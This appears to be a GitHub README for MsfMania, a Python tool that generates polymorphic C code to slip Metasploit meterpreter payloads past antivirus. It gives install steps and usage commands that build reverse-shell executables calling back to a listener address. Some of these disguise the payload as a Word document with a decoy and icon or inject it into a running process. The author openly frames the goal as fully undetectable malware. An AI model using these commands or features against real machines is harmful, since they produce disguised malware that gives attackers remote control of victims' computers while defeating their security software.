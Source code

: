 # MsfMania

MsfMania is a command line tool developed in Python, allowing to automatically produce a source code in C language that will be used to bypass antimalware before executing a metasploit payload.

Version 2.0 is the last one because the hunt for as much FUD as possible is not possible when it comes to open source tools. 
Indeed the argument "Don't send to VirusTotal.com" is not effective, often skids want to send the generated payload to infinity on the site to see if the payload is indeed FUD, except that it is a vicious circle.
This tool will be further developed if you offer me important additions or bug reports.

## Version 2.1
New features:
```
1- New usage method
2- Perfomance increase
3- User interaction removed
4- Hardest loop usage removed
```

## Requirements
- Latest version of Kali Linux
- The kali-rolling repository
- Python3

## Installation
- Git clone this repository: ```git clone https://github.com/G1ft3dC0d3/MsfMania.git```
- cd into the MsfMania folder: ```cd MsfMania```
- Run MsfMania setup: ```python3 setup.py```

## Usage
```
python3 MsfMania.py -h
```
```
python3 MsfMania.py staged x64 windows/x64/meterpreter/reverse_tcp 192.168.254.129 4444 Malware local
```
```
python3 MsfMania.py staged x64 windows/x64/meterpreter/reverse_tcp 192.168.254.129 4444 Virus remote --procname Wireshark.exe --mscript --icon mco.ico
```
```
python3 MsfMania.py stageless x64 windows/x64/meterpreter_reverse_tcp 192.168.254.129 4444 Word remote --decoy 2000 --mscript --icon word.ico
```

## Features
- x86/x64 staged payload meterpreter/shell.
- x86/x64 stageless payload meterpreter/shell.
- Cross-compiler MinGW.
- Polymorphic C source code.
- Strip with MinGW.
- Rar compression.
- Executable customizable with an icon.
- Local/Remote Thread Shellcode Injection
- Sandbox/Antivirus Evasion
